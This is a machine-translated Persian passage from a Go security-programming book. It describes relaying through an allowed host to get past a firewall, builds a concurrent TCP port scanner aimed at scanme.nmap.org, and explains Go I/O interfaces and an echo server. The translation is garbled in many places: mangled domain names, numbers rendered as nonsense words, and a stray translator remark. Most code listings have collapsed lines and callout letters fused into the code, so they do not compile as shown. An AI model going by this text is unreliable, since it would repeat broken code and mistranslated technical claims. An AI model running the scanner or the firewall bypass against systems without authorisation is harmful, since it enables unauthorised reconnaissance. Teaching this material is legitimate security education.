بسیاری از شبکه های سازمانی دارایی های داخلی را از ایجاد اتصالات HTTP به سایت های مخرب محدود می کنند. برای این مثال ، سایتی نابخردانه بنام չար.com را تصور کنید. اگر یک کارمند سعی دارد به طور مستقیم به مرور bad.com.com بپردازد ، دیوارپوش درخواست را مسدود می کند. با این حال ، اگر یک کارمند دارای سیستم خارجی باشد که از طریق فایروال مجاز است (به عنوان مثال stacktitan.com) ، آن کارمند می تواند دامنه مجاز را برای گزاف گویی اتصالات toevil.com اهرم کند. شکل 2-2 این مفهوم را نشان می دهد.
\begin{figure}
	\caption{A TCP proxy}
	\centering
	
\includegraphics[width=1\textwidth]{images/proxy.png}
\end{figure}

مشتری از طریق فایروال به میزبان مقصد stacktitan.com متصل می شود. این میزبان پیکربندی شده است تا اتصالات مربوط به میزبان bad.com را ارسال کند در حالی که فایروال اتصالات مستقیم را به bad.com ممنوع کرده است ، پیکربندی مانند آنچه در اینجا نشان داده شده است می تواند به مشتری اجازه دهد از این مکانیسم محافظت دور بزند و به bad.com دسترسی پیدا کند.

برای بهره برداری از چندین ترکیب شبکه محدود ، می توانید از انتقال پورت استفاده کنید. به عنوان مثال ، می توانید از طریق جعبه پرش عبور و مرور کنید تا به یک شبکه تقسیم شده یا به پورت های دسترسی که به رابط های محدود کننده دسترسی دارند دسترسی پیدا کنید.
\section{\lr{Writing a TCP Scanner}}
یکی از راه های مؤثر برای تعامل تعامل درگاه های TCP ، استفاده از اسکنر درگاه است. با نوشتن یکی ، مراحلی را که در یک لرزش TCP اتفاق می افتد ، به همراه تأثیر تغییرات حالت روبرو ، مشاهده می کنید ، که به شما امکان می دهد تعیین کنید که آیا پورت TCP در دسترس است یا خیر ، با حالت بسته یا فیلتر شده مطابقت دارد.

وقتی اسکنر اساسی را نوشتید ، سریعتر آن را خواهید نوشت. اسکنر پورت ممکن است چندین پورت را با استفاده از یک روش واحد پیوسته اسکن کند. با این وجود ، این هدف می تواند زمان بر باشد که هدف شما اسکن کردن 656535 فرودگاه است. در مورد چگونگی استفاده از همزمانی ، اسکنر پورت ناکارآمدتر برای کارهای بزرگتر پویش بندر را کشف خواهید کرد.

شما همچنین می توانید الگوهای همگام سازی را که در این بخش یاد خواهید گرفت در بسیاری از سناریوها ، چه در این کتاب و چه بعد از آن ، استفاده کنید.
\subsection{\lr{Testing for Port Availability}}
اولین قدم برای ایجاد اسکنر پورت ، درک نحوه شروع اتصال از مشتری به یک سرور است. در طول این مثال ، شما باید با Scanme.nmap.org ، خدمتی که توسط پروژه Nmap اجرا می شود ، در ارتباط باشید و اسکن کنید.\footnote{این یک سرویس رایگان است که توسط Fyodor ، خالق Nmap ارائه می شود ، اما وقتی اسکن می کنید ، مودب باشید. او درخواست می کند ، "سعی کنید روی سرور خیلی سخت نکشید. چند اسکن در روز خوب است ، اما روزی 100 بار اسکن نکنید. "}
برای انجام این کار ، از بسته خالص Go استفاده خواهید کرد: net.Dial (شبکه ، رشته آدرس).

اولین استدلال رشته ای است که نوع ارتباط برای شروع را مشخص می کند. دلیل این امر این است که شماره گیری مختص TCP نیست. می توان از آن برای ایجاد اتصالی استفاده کرد که از پروتکل های یونیکس ، UDP و Layer 4 استفاده می کنند که فقط در سر شما وجود دارد (نویسندگان در این جاده قرار گرفته اند ، و گفتن TCP کافی است). چند رشته وجود دارد که می توانید تهیه کنید ، اما به خاطر کوتاه بودن ، از tcp string استفاده خواهید کرد.

آرگومان دوم به Dial (شبکه ، رشته آدرس) میزبانی که می خواهید اتصال دهید ، می گوید. توجه کنید که این یک رشته است ، یک رشته و یک رشته نیست. برای اتصالات IPv4 / TCP ، این رشته شکل میزبان: پورت را خواهد داشت. به عنوان مثال ، اگر می خواهید به درگاه TCP 80 با skme.nmap.org وصل شوید ، Scanme.nmap.org:80 را تهیه می کنید.

حالا شما می دانید که چگونه یک اتصال ایجاد کنید ، اما چگونه می دانید که اتصال موفقیت آمیز است؟ شما این کار را از طریق بررسی خطا انجام می دهید: شماره گیری (شبکه ، رشته آدرس) اتصال و خطا را برمی گرداند ، و خطا در نتیجه موفقیت آمیز خواهد بود. بنابراین ، برای تأیید ارتباط خود ، شما فقط بررسی می کنید که آیا خطا برابر است یا خیر.

اکنون تمام قطعات مورد نیاز برای ساختن یک اسکنر درگاه واحد ، هرچند یک ناموزون ، لازم است. لیست 2-1 نحوه چیدمان آن را نشان می دهد.
\begin{latin}
	\begin{lstlisting}[caption={ A basic port scanner that scans only one port (https://github.com/blackhat-go/bhg/blob/master/ch-2/dial/main.go/},captionpos=b]

package mainimport (    "fmt"    "net")func main() {    _, err := net.Dial("tcp", "scanme.nmap.org:80")     if err == nil {
fmt.Println("Connection successful")    }}
	\end{lstlisting}
\end{latin}

این کد را اجرا کنید. شما باید اتصال را موفقیت آمیز ببینید ، مشروط بر اینکه به بزرگراه اطلاعاتی خوبی دسترسی داشته باشید.
\subsection{\lr{Performing Nonconcurrent Scanning}}
اسکن کردن یک درگاه واحد در هر زمان مفید نیست و مطمئناً کارآمد نیست. درگاه TCP از 1 تا 65535 متغیر است. اما برای آزمایش ، اجازه دهید پورت های 1 تا 1024 را اسکن کنیم. برای این کار می توانید از حلقه for استفاده کنید:
\begin{latin}
	\begin{lstlisting}
	for i:=1; i <= 1024; i++ {}
	\end{lstlisting}
\end{latin}

اکنون یک int دارید ، اما به یاد داشته باشید ، به عنوان دومین آرگومان Dial (شبکه ، رشته آدرس) به یک رشته نیاز دارید. حداقل دو روش برای اتصال عدد صحیح به یک رشته وجود دارد. یک روش استفاده از بسته تبدیل string ، strconv است. راه دیگر استفاده از Sprintf (رشته فرمت ، یک ... رابط {}) از بسته fmt است که (شبیه به خواهر و برادر C آن) یک رشته تولید شده از یک رشته فرمت را برمی گرداند.

یک فایل جدید با کد موجود در لیست 2-2 ایجاد کنید و اطمینان حاصل کنید که هم حلقه و هم رشته شما کار می کنند. با اجرای این کد باید 1024 خط چاپ شود ، اما احساس نمی کنید که آنها را بشمارید.
\begin{latin}
	\begin{lstlisting}[caption={ Scanning 1024 ports of scanme.nmap.org (https://github.com/blackhat-go/bhg/ch-2/tcp-scanner-slow/main.go/)},captionpos=b]

	package mainimport (    "fmt")func main() {    for i := 1; i <= 1024; i++ {        address := fmt.Sprintf("scanme.nmap.org:%d", i)        fmt.Println(address)    }}
	\end{lstlisting}
\end{latin}

تمام آنچه که باقی مانده اینست که متغیر آدرس را از مثال کد قبلی به Dial (شبکه ، رشته آدرس) وصل کنید و همان آزمایش خطا را از قسمت قبل پیاده کنید تا در دسترس بودن پورت را آزمایش کنید. در صورت موفقیت آمیز ، باید منطقی را نیز برای بستن اتصال اضافه کنید. به این ترتیب ، اتصالات باز نمی ماند. تمام کردن اتصالات شما فقط مودبانه است. برای انجام این کار ، شما می توانید با بستن () در اتصال تماس بگیرید. لیست 2-3 اسکنر درگاه تکمیل شده را نشان می دهد.
\begin{latin}
	\begin{lstlisting}[caption={ The completed port scanner (https://github.com/blackhat-go/bhg/ch-2/tcp-scanner-slow/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "net")func main() {    for i := 1; i <= 1024; i++ {        address := fmt.Sprintf("scanme.nmap.org:%d", i)        conn, err := net.Dial("tcp", address)        if err != nil {            // port is closed or filtered.            continue        }        conn.Close()        fmt.Printf("%d open\n", i)    }}
	\end{lstlisting}
\end{latin}

برای انجام اسکن نوری در برابر هدف ، این کد را کامپایل و اجرا کنید. شما باید چند درگاه باز را ببینید.
\subsection{\lr{Performing Concurrent Scanning}}
اسکنر قبلی پورت های مختلف را در یک حرکت اسکن می کرد (هدف در نظر گرفته شده). اما هدف شما اکنون اسکن چندین پورت به طور هم زمان است که باعث می شود اسکنر درگاه شما سریعتر شود. برای انجام این کار ، قدرت گوروتین ها را به دست خواهید آورد. برو به شما امکان می دهد تا آنجا که بسیاری از سیستم های امنیتی شما قادر به کنترل هستند ، فقط به حافظه موجود محدود کنید ، ایجاد کنید.
\subsubsection{\lr{The “Too Fast” Scanner Version}}
ساده ترین راه برای ایجاد اسکنر بندری که به طور همزمان اجرا می شود ، بسته بندی تماس به Dial (شبکه ، رشته آدرس) در یک شبکه است. به منظور یادگیری از پیامدهای طبیعی ، پرونده جدیدی با نام scan-too-fast.gowith کد موجود در لیست 2-4 ایجاد کنید و آن را اجرا کنید.
\begin{latin}
	\begin{lstlisting}[caption={ A scanner that works too fast (https://github.com/blackhat-go/bhg/ch-2/tcp-scanner-too-fast/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "net")func main() {    for i := 1; i <= 1024; i++ {        go func(j int) {            address := fmt.Sprintf("scanme.nmap.org:%d", j)
	conn, err := net.Dial("tcp", address)            if err != nil {                return            }            conn.Close()            fmt.Printf("%d open\n", j)        }(i)    }}
	\end{lstlisting}
\end{latin}

پس از اجرای این کد ، تقریباً باید برنامه را خارج کنید:
\begin{latin}
	\begin{lstlisting}
	$ time ./tcp-scanner-too-fast./tcp-scanner-too-fast  0.00s user 0.00s system 90% cpu 0.004 total
	\end{lstlisting}
\end{latin}
كدی كه تازه اجرا كردید در هر اتصال ، یك شبكه یك را راه اندازی می كند ، و شركت اصلی نمی داند كه منتظر بمانید تا این اتصال برقرار شود. بنابراین ، کد به محض تمام شدن حلقه تکرارهای خود ، که ممکن است سریعتر از تبادل شبکه بسته ها بین کد شما و پورت های هدف باشد ، تکمیل و خارج می شود. ممکن است برای درگاه هایی که بسته های آنها هنوز پرواز نشده است ، نتایج دقیقی کسب نکنید.

چند روش برای حل این مسئله وجود دارد. یکی استفاده از WaitGroup از syncpackage است که روشی ایمن برای کنترل همزمانی است. WaitGroup یک نوع ساختار است و می تواند به صورت زیر ایجاد شود:
\begin{latin}
	\begin{lstlisting}
	var wg sync.WaitGroup
	\end{lstlisting}
\end{latin}
پس از ایجاد WaitGroup ، می توانید چند روش را در ساختار بنامید. مورد اول Add (int) است که شمارنده داخلی را با تعداد ارائه شده افزایش می دهد. در مرحله بعد ، Done () شمارنده را با یک کاهش می دهد. سرانجام ، Wait () اجرای گلوتینی را که در آن خوانده می شود مسدود می کند و تا زمانی که پیشخوان داخلی به صفر نرسد ، احتیاط بیشتری نمی کند. می توانید این تماسها را با هم ترکیب کنید تا اطمینان حاصل شود که شبکه اصلی منتظر تمام اتصالات است.
\subsubsection{\lr{Synchronized Scanning Using WaitGroup}}
لیست 2-5 همان برنامه اسکن بندر را با اجرای متفاوت گوروین ها نشان می دهد.
\begin{latin}
	\begin{lstlisting}[caption={ A synchronized scanner that uses WaitGroup (https://github.com/blackhat-go/bhg/ch-2/tcp-scanner-wg-too-fast/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "net"    "sync")
	func main() {u var wg sync.WaitGroup    for i := 1; i <= 1024; i++ {v wg.Add(1)        go func(j int) {w defer wg.Done()            address := fmt.Sprintf("scanme.nmap.org:%d", j)            conn, err := net.Dial("tcp", address)            if err != nil {                return            }            conn.Close()            fmt.Printf("%d open\n", j)        }(i)    }x wg.Wait()}
	\end{lstlisting}
\end{latin}

این تکرار کد تا حد زیادی با نسخه اولیه ما یکسان است. با این حال ، کدی را اضافه کرده اید که صریحاً کار باقیمانده را ردیابی می کند. در این نسخه از برنامه ، sync.WaitGroupu را ایجاد می کنید ، که به عنوان پیشخوان هماهنگ عمل می کند. شما این شمارنده را از طریق wg.Add (1) هر بار که می توانید یک اسکناس را برای اسکن کردن پورت v ایجاد کنید ، افزایش می دهید و هر زمان که یک واحد کار انجام شود یک تماس معوق به wg.Done () پیشخوان را کاهش می دهد. عملکرد اصلی () wg.Wait () شما را صدا می کند ، تا زمانی که تمام کارها مسدود شود و پیشخوان شما به صفر x برگردد.

این نسخه از برنامه بهتر است ، اما هنوز هم نادرست است. اگر این کار را چندین بار در برابر میزبان های متعدد اجرا کنید ، ممکن است نتایج متناقضی را مشاهده کنید. اسکن تعداد بیش از حد میزبان یا پورت به طور همزمان ممکن است باعث محدودیت شبکه یا سیستم شود تا نتایج شما را کمرنگ کند. پیش بروید و 1024 را به 65535 تغییر دهید و سرور مقصد را در localhost 127.0.0.1 خود در کد خود تغییر دهید. اگر می خواهید ، می توانید از Wireshark یا tcpdump استفاده کنید تا ببینید سرعت این اتصالات چگونه باز می شوند.
\subsubsection{\lr{Port Scanning Using a Worker Pool}}
برای جلوگیری از ناسازگاری ، از مجموعه ای از گوروین ها برای مدیریت کار همزمان که انجام می شود استفاده خواهید کرد. با استفاده از حلقه حلقه ، شما یک تعداد محکم از goroutines کارگر به عنوان یک منبع منابع ایجاد خواهید کرد. سپس در "اصلی" (اصلی) شما از یک کانال برای تهیه کار استفاده می کنید.

برای شروع ، یک برنامه جدید ایجاد کنید که 100 کارگر دارد ، یک کانال int را مصرف می کند و آنها را روی صفحه چاپ می کند. شما همچنان از WaitGroup برای جلوگیری از اجرای استفاده می کنید. خرد کد اولیه خود را برای یک عملکرد اصلی ایجاد کنید. در بالای آن ، عملکرد نشان داده شده در لیست 2-6 را بنویسید.
\begin{latin}
	\begin{lstlisting}[caption={  A worker function for processing work},captionpos=b]
	func worker(ports chan int, wg *sync.WaitGroup) {    for p := range ports {        fmt.Println(p)        wg.Done()    }}
	\end{lstlisting}
\end{latin}

تابع کارگر (int، * sync.WaitGroup) را اضافه کنید: دو کانال از نوع int و یک اشاره گر به WaitGroup. از این کانال برای دریافت کار استفاده خواهد شد و از WaitGroup برای ردیابی زمان کامل شدن یک مورد کار استفاده می شود.

اکنون ، عملکرد اصلی () نشان داده شده در لیست 2-7 را اضافه کنید ، که باعث می شود بار کار مدیریت شود و کار را به عملکرد شما (int، * sync.WaitGroup) ارائه دهد.
\begin{latin}
	\begin{lstlisting}[caption={   A basic worker pool (https://github.com/blackhat-go/ch-3/tcp-sync-scanner/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "sync")func worker(ports chan int, wg *sync.WaitGroup) {u for p := range ports {        fmt.Println(p)        wg.Done()    }}func main() {    ports := makev(chan int, 100)    var wg sync.WaitGroupw for i := 0; i < cap(ports); i++ {        go worker(ports, &wg)    }    for i := 1; i <= 1024; i++ {        wg.Add(1)x ports <- i    }    wg.Wait()y close(ports)}
	\end{lstlisting}
\end{latin}

ابتدا با استفاده از make () v کانال ایجاد می کنید. یک پارامتر دوم ، با ارزش int 100 ، برای ساخت () در اینجا ارائه شده است. این اجازه می دهد تا کانال بافر شود ، به این معنی که شما می توانید بدون انتظار انتظار گیرنده برای خواندن آن ، آن را برای آن ارسال کنید. کانال های بافر برای حفظ و پیگیری کار برای چندین تولید کننده و مصرف کننده ایده آل هستند. شما کانال را در 100 قرار داده اید ، به این معنی که می تواند 100 مورد را برای جلوگیری از ارسال کننده گیر نگه دارد. این یک افزایش عملکرد جزئی است ، زیرا این امکان را به شما می دهد تا همه کارگران از همان ابتدا شروع کنند.

در مرحله بعد ، برای شروع تعداد مورد نظر کارگران از یک حلقه w استفاده می کنید — در این حالت 100. در عملکرد کارگر (int، * sync.WaitGroup) ، شما از rangeuto استفاده می کنید که به طور مداوم از کانال درگاه ها دریافت می کند ، تا زمانی که کانال حلقه شود. بسته توجه کنید که شما در حال کار دیگری نیستید - به زودی. در حال حرکت بر روی پورت ها به طور متوالی در عملکرد اصلی () ، شما یک پورت را در کانال پورت ها x به کارگر می فرستید. بعد از تمام شدن کار ، کانال y را می بندید.

پس از ساخت و اجرای این برنامه ، شماره های خود را روی صفحه چاپ می کنید. ممکن است در اینجا نکته جالب توجه مشاهده شود: اعداد به ترتیب خاصی چاپ نمی شوند. به دنیای شگفت انگیز موازی خوش آمدید.
\subsubsection{\lr{Multichannel Communication}}
برای تکمیل اسکنر درگاه ، می توانید کد خود را از همان قسمت قبلی به آن وصل کنید ، و این درست کار می کند. با این حال ، درگاه های چاپی طبقه بندی نمی شوند ، زیرا اسکنر آنها را به ترتیب بررسی نمی کند. جمله اصلاح شده خوب است. این همچنان معنای اصلی را حفظ می کند ، بنابراین هیچ مشکلی وجود ندارد. یکی دیگر از مزایای این اصلاح این است که می توانید وابستگی یک WaitGroup را به طور کامل حذف کنید ، زیرا روش دیگری برای تکمیل ردیابی خواهید داشت. به عنوان مثال ، اگر پورت های 1024 را اسکن می کنید ، 1024 بار در کانال کارگر ارسال می کنید ، و باید 1024 بار نتیجه آن کار را دوباره به موضوع اصلی ارسال کنید. از آنجا که تعداد واحدهای کاری ارسال شده و تعداد نتایج دریافتی یکسان است ، برنامه شما می تواند بداند چه موقع کانالها را ببندید و متعاقباً کارگران را خاموش کنید.

این تغییر در لیست 2-8 نشان داده شده است ، که اسکنر پورت را کامل می کند.
\begin{latin}
	\begin{lstlisting}[caption={Port scanning with multiple channels (https://github.com/blackhat-go/bhg/ch-2/tcp-scanner-final/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "net"    "sort")u func worker(ports, results chan int) {    for p := range ports {        address := fmt.Sprintf("scanme.nmap.org:%d", p)        conn, err := net.Dial("tcp", address)        if err != nil {v results <- 0            continue        }        conn.Close()w results <- p    }}
	func main() {    ports := make(chan int, 100)x results := make(chan int)y var openports []int    for i := 0; i < cap(ports); i++ {        go worker(ports, results)    }z go func() {        for i := 1; i <= 1024; i++ {            ports <- i        }    }(){ for i := 0; i < 1024; i++ {        port := <-results        if port != 0 {            openports = append(openports, port)        }    }    close(ports)    close(results)| sort.Ints(openports)    for _, port := range openports {        fmt.Printf("%d open\n", port)    }}
	\end{lstlisting}
\end{latin}

تابع کارگر (پورت ها ، نتایج جستجو chan int) اصلاح شده است تا دو کانال را بپذیرد. منطق باقیمانده عمدتاً یکسان است ، به جز این که اگر درگاه بسته باشد ، صفر v ارسال می کنید ، و اگر باز شود ، پورت w را ارسال می کنید. همچنین ، شما یک کانال جداگانه ایجاد می کنید تا نتایج حاصل از کارگر به موضوع اصلی x ارتباط برقرار کنید. سپس برای ذخیره نتایج از یك برش y استفاده می كنید تا بتوانید بعداً آنها را مرتب كنید. در مرحله بعد ، شما باید در یک کارخانه جداگانه برای کارگران بفرستید زیرا باید حلقه جمع آوری نتیجه قبل از شروع بیش از 100 مورد کار شروع شود.

حلقه جمع آوری نتیجه 1024 بار در کانال نتایج دریافت می کند. اگر پورت 0 برابر نیست ، به برش اضافه می شود. بعد از بستن شبکه های نان ، از مرتب سازی استفاده خواهید کرد برای مرتب کردن برش درگاه های باز تنها چیزی که باقی مانده این است که برش را پر کنید و پورت های باز را برای نمایش چاپ کنید.

در آنجا آن را دارید: اسکنر بندر بسیار کارآمد. مدتی را صرف بازی با کد کنید - مخصوصاً تعداد کارگران. هرچه شمارش بیشتر باشد ، برنامه شما باید سریعتر اجرا شود. اما اگر کارگران زیادی اضافه کنید ، نتایج شما غیرقابل اعتماد می شود. هنگامی که می نویسید وسایلی برای استفاده دیگران است ، می خواهید از یک مقدار پیش فرض سالم استفاده کنید که باعث می شود قابلیت اطمینان در سرعت بیشتر شود. با این حال ، شما همچنین باید به کاربران اجازه دهید تعداد کارگران را به عنوان گزینه فراهم کند.

شما می توانید دو پیشرفت در این برنامه ایجاد کنید. ابتدا ، شما برای هر درگاه اسکن شده در کانال نتایج ارسال می کنید ، و این ضروری نیست. جایگزین نیاز به کدی دارد که کمی پیچیده تر باشد زیرا از یک کانال اضافی نه تنها برای ردیابی کارگران استفاده می کند ، بلکه همچنین برای اطمینان از تکمیل شرایط مسابقه با اطمینان از تکمیل نتایج جمع آوری شده. از آنجا که این یک فصل مقدماتی است ، ما هدفمند این را کنار گذاشتیم. اما نگران نباشید! ما این الگوی را در فصل 3 معرفی خواهیم کرد. اگر می خواهید اجرای این مورد را ببینید ، به https://github.com/blackhat-go/xplode مراجعه کنید. ما این را به عنوان یک تمرین برای کشف شما ترک خواهیم کرد.
\section{\lr{Building a TCP Proxy}}
با استفاده از شبکه داخلی Go می توانید به کلیه ارتباطات مبتنی بر TCP دست پیدا کنید. بخش قبلی بیشتر در استفاده از بسته خالص از دید مشتری متمرکز بود و این بخش از آن برای ایجاد سرورهای TCP و انتقال داده استفاده می کند. شما این سفر را با ساختن سرور echo مورد نیاز آغاز می کنید - سروری که پاسخی خاص به مشتری می دهد - و به دنبال آن دو برنامه بسیار کاربردی دیگر: یک فرستنده پورت TCP و ایجاد مجدد "سوراخ امنیتی شکاف Netcat" "برای اجرای فرمان از راه دور.
\subsection{\lr{Using io.Reader and io.Writer}}
برای ایجاد مثال در این بخش ، شما باید از دو نوع مهم استفاده کنید که در واقع همه وظایف ورودی / خروجی (I / O) ضروری است ، خواه از TCP ، HTTP ، یک سیستم پرونده یا هر وسیله دیگر استفاده کنید: io. خواننده و io.Writer. بخشی از بسته داخلی io داخلی ، این نوع ها به عنوان سنگ بنای هر انتقال داده ، محلی یا شبکه ای عمل می کنند. این نوع در اسناد گو به شرح زیر است:
\begin{latin}
	\begin{lstlisting}
	type Reader interface {    Read(p []byte) (n int, err error)}type Writer interface {    Write(p []byte) (n int, err error)}
	\end{lstlisting}
\end{latin}

هر دو نوع به عنوان واسط تعریف شده اند ، به این معنی که نمی توان آنها را به طور مستقیم فوریت کرد. هر نوع شامل تعریف یک عملکرد صادر شده است: بخوانید یا بنویسید. همانطور که در فصل 1 توضیح داده شد ، می توانید این کارکردها را به عنوان روشهای انتزاعی فکر کنید که باید بر روی یک نوع پیاده سازی شود تا یک خواننده یا نویسنده در نظر گرفته شود. به عنوان مثال ، نوع متعارف زیر این قرارداد را برآورده می کند و می تواند در هر مکانی که یک Reader پذیرفته شده باشد ، مورد استفاده قرار گیرد:
\begin{latin}
	\begin{lstlisting}
	type FooReader struct {}func (fooReader *FooReader) Read(p []byte) (int, error) {    // Read some data from somewhere, anywhere.
	return len(dataReadFromSomewhere), nil }
	\end{lstlisting}
\end{latin}

همین ایده در مورد رابط Writer صدق می کند:
\begin{latin}
	\begin{lstlisting}
	type FooWriter struct {}func (fooWriter *FooWriter) Write(p []byte) (int, error) {    // Write data somewhere.    return len(dataWrittenSomewhere), nil }
	\end{lstlisting}
\end{latin}

بیایید این دانش را به دست آوریم و چیزی را نیمه کاره ایجاد کنیم: یک خواننده و نویسنده سفارشی که استین و استدلال را می پوشاند. این کد از آنجایی که انواع os.Stdin و os.Stdout قبلاً به عنوان Reader و Writer عمل می کنند ، محدود است اما اگر شما نمی توانستید دوباره سرقت را دوباره بدست آورید ، دیگر چیزی نمی آموختید؟

لیست 2-9 اجرای کامل را نشان می دهد و توضیحی در زیر می آید.
\begin{latin}
	\begin{lstlisting}[caption={A reader and writer demonstration (https://github.com/blackhat-go/bhg/ch-2/io-example/main.go/)},captionpos=b]
	package mainimport (    "fmt"    "log"    "os")// FooReader defines an io.Reader to read from stdin.u type FooReader struct{}// Read reads data from stdin.v func (fooReader *FooReader) Read(b []byte) (int, error) {    fmt.Print("in > ")    return os.Stdin.Read(b)w}// FooWriter defines an io.Writer to write to Stdout.x type FooWriter struct{}// Write writes data to Stdout.y func (fooWriter *FooWriter) Write(b []byte) (int, error) {    fmt.Print("out> ")    return os.Stdout.Write(b)z}func main() {    // Instantiate reader and writer.    var (        reader FooReader        writer FooWriter    )    // Create buffer to hold input/output.{ input := make([]byte, 4096)
	// Use reader to read input.    s, err := reader.Read(input)|    if err != nil {        log.Fatalln("Unable to read data")    }    fmt.Printf("Read %d bytes from stdin\n", s)    // Use writer to write output.    s, err = writer.Write(input)}    if err != nil {        log.Fatalln("Unable to write data")    }    fmt.Printf("Wrote %d bytes to stdout\n", s)}
	\end{lstlisting}
\end{latin}

کد دو نوع سفارشی را تعریف می کند: FooReaderu و FooWriterx. در هر نوع ، شما اجرای مشخصی از تابع Read ([] بایت) را برای FooReader و تابع نوشتن ([] بایت) y برای FooWriter تعریف می کنید. در این حالت ، هر دو عملکرد در حال خواندن از stdin w و نوشتن به stdout z هستند.

توجه داشته باشید که توابع Read در هر دو FooReader و os.Stdin طول داده ها و هرگونه خطا را بر می گردانند. داده ها به خودی خود در بایستی که به توابع منتقل شده است کپی می شوند. این مطابق با تعریف نمونه اولیه رابط Reader است که در این بخش در ابتدا ارائه شده است. تابع اصلی () این قطعه را ایجاد می کند (ورودی نامگذاری می شود) {و سپس به استفاده از آن در تماس های FooReader ادامه می دهد. بازخوانی ([] بایت) | و FooReader.Write ([] بایت).

	نمونه اجرا شده از این برنامه موارد زیر را تولید می کند:
	\begin{latin}
		\begin{lstlisting}$ go run main.go in > hello world!!!Read 15 bytes from stdinout> hello world!!!Wrote 4096 bytes to stdout
		\end{lstlisting}
	\end{latin}

کپی کردن داده ها از یک Reader به Writer یک الگوی نسبتاً معمول است - به حدی که بسته io Go شامل یک عملکرد Copy () است که می تواند برای ساده کردن عملکرد اصلی () استفاده شود. نمونه اولیه عملکرد به شرح زیر است:
\begin{latin}
	\begin{lstlisting}func Copy(dst io.Writer, src io.Reader) (written int64, error)
	\end{lstlisting}
\end{latin}

این عملکرد راحت به شما امکان می دهد همان رفتار قبلی را مانند گذشته بدست آورید ، عملکرد اصلی () اصلی خود را با کد موجود در لیست 2-10 جایگزین کنید.
\begin{latin}
	\begin{lstlisting}[caption={Using io.Copy (https://github.com/blackhat-go/ch-3/copy-example/main.go/)},captionpos=b]
	func main() {    var (        reader FooReader        writer FooWriter    )
	if _, err := io.Copy(&writer, &reader)u; err != nil {        log.Fatalln("Unable to read/write data")    }}
	\end{lstlisting}
\end{latin}

توجه كنید كه تماسهای صریح به خواننده. خواندن ([] بایت) و نویسنده. نوشتن ([] بایت) با یک تماس واحد به io.Copy (نویسنده ، خواننده) جایگزین شده است. در زیر این پوشه ها ، io.Copy (نویسنده ، خواننده) تابع Read ([] بایت) را بر روی خواننده ارائه شده فراخوانی می کند و باعث می شود FooReader از استین بخواند. پس از آن ، io.Copy (نویسنده ، خواننده) تابع Writ ([] بایت) را بر روی نویسنده ارائه شده فراخوانی می کند ، در نتیجه تماس با FooWriter شما ، که داده ها را به stdout می نویسد ، می شود. در اصل ، io.Copy (نویسنده ، خواننده) فرایند پی در پی خواندن و نوشتن پی در پی را بدون همه جزئیات کوچک اداره می

این بخش مقدماتی به هیچ وجه نگاهی جامع به بررسی های I / O و رابط ها ندارد. بسیاری از کارکردهای راحتی و خوانندگان و نویسندگان سفارشی به عنوان بخشی از بسته های استاندارد Go وجود دارند. در اکثر موارد ، بسته های stard-dad Go شامل کلیه پیاده سازی های اساسی برای دستیابی به رایج ترین وظایف است. در بخش بعدی ، نحوه کاربرد این مربیان بنیادی را در ارتباطات TCP بررسی خواهیم کرد ، درنهایت با استفاده از توان منتسب به شما برای توسعه ابزارهای واقعی و قابل استفاده. کند.
\subsection{\lr{Creating the Echo Server}}
همانطور که در بیشتر زبانها مرسوم است ، شما با ساختن یک سرور echo شروع می کنید تا یاد بگیرید چگونه خواندن و نوشتن داده ها را از طریق یک سوکت انجام دهید. برای انجام این کار ، شما از net.Conn ، اتصال به شبکه مستقر در جریان استفاده خواهید کرد ، که هنگام ساختن اسکنر بندر ، آن را معرفی کردیم. براساس مستندات Go برای نوع داده ، Conn عملکردهای Read ([] بایت) و نوشتن ([] بایت) را برای رابط های Reader و Writer تعریف می کند. بنابراین ، کان هم خواننده و هم نویسنده است (بله ، این امکان پذیر است). این امر از نظر منطقی منطقی است ، زیرا اتصالات TCP دو طرفه هستند و می توانند برای ارسال (نوشتن) یا دریافت (خواندن) داده ها استفاده شوند.

بعد از ایجاد نمونه اتصال ، می توانید داده ها را از طریق سوکت TCP ارسال و دریافت کنید. با این حال ، یک سرور TCP نمی تواند به سادگی اتصال اتصال را ایجاد کند. مشتری باید ارتباط برقرار کند. در Go می توانید از net.Listen (شبکه ، رشته آدرس) استفاده کنید تا ابتدا یک شنونده TCP را در یک پورت خاص باز کنید. پس از اتصال مشتری ، متد Accept () Connobject را ایجاد کرد و برمی گرداند که می توانید برای دریافت و ارسال داده از آن استفاده کنید.

لیست 2-11 نمونه کاملی از اجرای سرور را نشان می دهد. ما نظرات را برای وضوح درج کرده ایم. نگران درک کد در کل آن نباشید ، زیرا لحظه به لحظه آن را تجزیه خواهیم کرد.
\begin{latin}
	\begin{lstlisting}[caption={A basic echo server (https://gihub.com/blackhat-go/bhg/ch-2/echo-server/main.go/)},captionpos=b]
	package mainimport (    "log"    "net")
	// echo is a handler function that simply echoes received data.func echo(conn net.Conn) {    defer conn.Close()    // Create a buffer to store received data.    b := make([]byte, 512)u for {        // Receive data via conn.Read into a buffer.        size, err := conn.Readv(b[0:])        if err == io.EOF {            log.Println("Client disconnected")            break        }        if err != nil {            log.Println("Unexpected error")            break        }        log.Printf("Received %d bytes: %s\n", size, string(b))        // Send data via conn.Write.        log.Println("Writing data")        if _, err := conn.Writew(b[0:size]); err != nil {            log.Fatalln("Unable to write data")        }    }}func main() {    // Bind to TCP port 20080 on all interfaces.x listener, err := net.Listen("tcp", ":20080")    if err != nil {        log.Fatalln("Unable to bind to port")    }    log.Println("Listening on 0.0.0.0:20080")y for {        // Wait for connection. Create net.Conn on connection established.z conn, err := listener.Accept()        log.Println("Received connection")        if err != nil {            log.Fatalln("Unable to accept connection")        }        // Handle the connection. Using goroutine for concurrency.{ go echo(conn)    }}
	\end{lstlisting}
\end{latin}

